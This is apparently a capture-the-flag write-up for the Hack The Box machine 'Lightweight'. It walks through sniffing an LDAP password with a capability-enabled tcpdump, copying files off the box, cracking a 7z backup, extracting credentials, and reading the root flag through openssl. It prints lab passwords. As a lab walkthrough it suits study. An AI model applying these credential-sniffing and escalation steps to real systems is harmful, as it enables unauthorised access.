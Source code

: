 Cancel# Lightweight
### Info:
OS: Linux<br>
IP: 10.10.10.119<br>
Difficulty : Medium<br>
### Enumeration:
```nmap -sC -sV -oA nmap 10.10.10.119``` <br>

gives us the results : <br>
![alt text](https://i.imgur.com/XDtmKQT.png)
We cannot run dirb etc because, it bans us for 5 minutes. <br>
Rather we can just ssh in via our ip address in the box.
<br>
### Exploitation:
Running `getcap` gives us :
![alt text](https://i.imgur.com/zUbCFqg.png) <br>
Via tcpdump :
```
tcpdump -i any -w packets.pcap
```
![alt text](https://i.imgur.com/hGVmxBE.png)
To export the pcap file :
```
scp 10.10.16.5@10.10.10.119:/home/10.10.16.5/temp/all.pcap /root/Desktop/boxes/LightWeight/
```
And viewing those packets in wireshark gives us the password for ldapuser2.
![alt text](https://i.imgur.com/sJCUKF6.png)
Via these creds we can su into the ldapuser2.
```
Username: ldapuser2
Password: 8bc8251332abe1d7f105d3e53ad39ac2
```
### Privilege Escalation (for user : ldapuser1):
We see a backup.7z file, which cannot we transfered directly. We can either user msf or base64 technique.
```
$ cat backup.7z | base 64 (on the box)
and to decrypt
$ base64 –d enc_backup > backup.7z 
```
Using https://www.lostmypass.com/file-types/7z/ we get the password for the 7z as `delete`  <br>
We can also use https://raw.githubusercontent.com/Seyptoo/7z-BruteForce/master/latex.py break the 7z. <br>
Now running strings we get the creds for ldapuser1 :
```
root@kali:~/Desktop/boxes/LightWeight/files# strings status.php | grep password
$password = 'f3ca9d298a553da117442deeb6fa932d';
```
we find a openssl present inside this user, which was owned by root. <br>
Therefore we encrypted the root.txt and saved it on the user and then decrypted it to get the flag.
![alt text](https://i.imgur.com/2BajMIP.png)
We can also get root on this shell (didnot try after getting the hash). 
### Gained knowledge:
ldap enumerations <br>
base64 decode encode to retrieve files <br>
getcap <br>
openssl <br>
